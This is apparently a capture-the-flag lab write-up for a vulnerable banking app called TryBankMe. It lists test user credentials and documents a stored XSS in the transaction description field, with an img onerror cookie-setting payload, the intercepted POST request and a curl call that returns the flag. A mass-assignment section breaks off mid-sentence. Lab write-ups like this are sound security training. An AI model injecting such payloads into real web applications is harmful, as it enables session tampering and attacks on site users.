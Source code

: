 # TryBankMe





## Test users

{% code overflow="wrap" %}
```
{"firstname":"Mario","lastname":"Rossi","username":"mariorossi99","email":"mariorossi99@gmail.com","password":"Password123!"}
```
{% endcode %}







## Enumeration





## Vulnerabilities

### XSS Stored on Transiction description



In the Transictions page(http://10.200.150.100/transactions) when someone create a New Transiction request, the parameter Description doesn't filter from special character and this could generate a Stored XSS vulnerability.

Craft the payload which set new cookie XSS with value XSS like the Deliverables said.

```
<img src=1 onerror="document.cookie=document.cookie='XSS=XSS;'">
```

An attacker could intercept the web request and insert this payload to the Description field.

The request payload is this:

```
POST /api/v1.0/transaction HTTP/1.1
{"account_from":"c812d65d-6edf-4633-b545-6c23d894792a","account_to":"439b01be-2b09-4387-b2fd-c24062b2f478","amount":2,"message":"<img src=1 onerror=\"document.cookie=document.cookie='XSS=XSS;'\">"}
```

When the account\_to user visit the transiction info that cookie will add in his browser page.



{% code title="Vuln flag" overflow="wrap" %}
```bash
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "paolobianchi99", "password" : "Password123!" }' http://10.200.150.100:8080/api/v1.0/xss

{"flag":"THM{38af2c0c-0a05-45a1-8fe6-460328cf923d}","message":"XSS Success"}
```
{% endcode %}



### Mass Assignment

In the loan page an attacker can intercept the request to get information from an loan application and this method is not blocked. In this way an attacker can&#x20;

